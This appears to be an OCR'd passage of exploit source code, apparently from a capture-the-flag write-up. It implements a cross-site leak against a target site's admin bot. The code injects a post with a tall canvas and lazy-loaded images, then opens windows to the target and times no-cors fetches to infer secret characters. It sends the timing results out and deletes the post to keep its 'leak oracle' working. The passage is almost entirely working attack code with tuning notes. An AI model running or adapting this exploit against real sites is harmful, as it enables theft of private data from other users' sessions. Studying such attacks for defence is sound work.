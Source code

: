 ``` html
          break
        }
      }
      
    }, 0)

    async function testChar(str) {
      return new Promise(resolve => {
          /*
            For 3350, you need to test it on your local to get this number.
            The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
            If starts with "A", the image should be loaded because it's in the threshold.
          */
          inp.value = str + '<br><canvas height="3350px"></canvas><br>'+Array.from({length:20}).map((_,i)=>`<img loading=lazy src=/?${i}>`).join('')
          f.submit()

          setTimeout(() => {
            run(str, resolve)
          }, 500)
      })
    }

    async function run(str, resolve) {
    // if the request is not enough, we can send more by opening more window
      for(let i=1; i<=5;i++) {
        window.open(TARGET)
      }
      
      let t = 0
      const round = 30
      setTimeout(async () => {
        for(let i=0; i<round; i++) {
          let s = performance.now()
          await fetch(TARGET + '/?test', {
            mode: 'no-cors'
          }).catch(err=>1)
          let end = performance.now()
          t += end - s
          console.log(end - s)
        }
        const avg = t/round
        send(str + "," + t + "," + "avg:" + avg)

        /*
          I get this threshold(1000ms) by trying multiple times on remote admin bot
          for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
        */
        const isFound = (t >= 1000)
        if (isFound) {
          inp2.value = "0"
        } else {
          inp2.value = "1"
        }

        // remember to delete the post to not break our leak oracle
        f2.submit()
        setTimeout(() => {
          resolve(isFound)
        }, 200)
      }, 200)
    }
```